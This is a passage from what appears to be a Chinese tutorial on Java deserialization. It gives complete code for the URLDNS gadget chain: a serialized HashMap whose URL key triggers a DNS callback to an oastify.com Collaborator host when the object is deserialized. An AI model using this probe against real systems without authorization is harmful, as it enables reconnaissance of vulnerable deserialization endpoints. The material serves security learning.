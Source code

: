 这样我们就实现了在put时不发起请求而只在反序列化时触发请求的目的，完整代码为：

```java
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

public class Seri {
    public static void main(String[] args) throws IOException, NoSuchFieldException, IllegalAccessException {
        HashMap<URL, Integer> urlIntegerHashMap = new HashMap<URL, Integer>();
        URL url = new URL("http://p3tgvj6i7kexd1qiixiuc4ix5obhz6.oastify.com");
        Class<URL> urlClass = URL.class;
        Field hashCode = urlClass.getDeclaredField("hashCode");
        hashCode.setAccessible(true);
        hashCode.set(url,10);
        urlIntegerHashMap.put(url,1);
        hashCode.set(url,-1);
        ObjectOutputStream oos = new ObjectOutputStream(Files.newOutputStream(Paths.get("ser.bin")));
        oos.writeObject(urlIntegerHashMap);
    }
}
```

```java
import java.io.IOException;
import java.io.ObjectInputStream;
import java.nio.file.Files;
import java.nio.file.Paths;

public class Unseri {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(Files.newInputStream(Paths.get("ser.bin")));
        Object obj = ois.readObject();
        System.out.println(obj);
    }
}
```

# 参考资料

[Java反序列化漏洞专题-基础篇](https://www.bilibili.com/video/BV16h411z7o9/?p=1)

[反序列化Gadget学习篇一 URLDNS ](https://www.cnblogs.com/chengez/p/urldns.html)

[Burpsuite Collaborato模块详解](https://cloud.tencent.com/developer/news/383590)
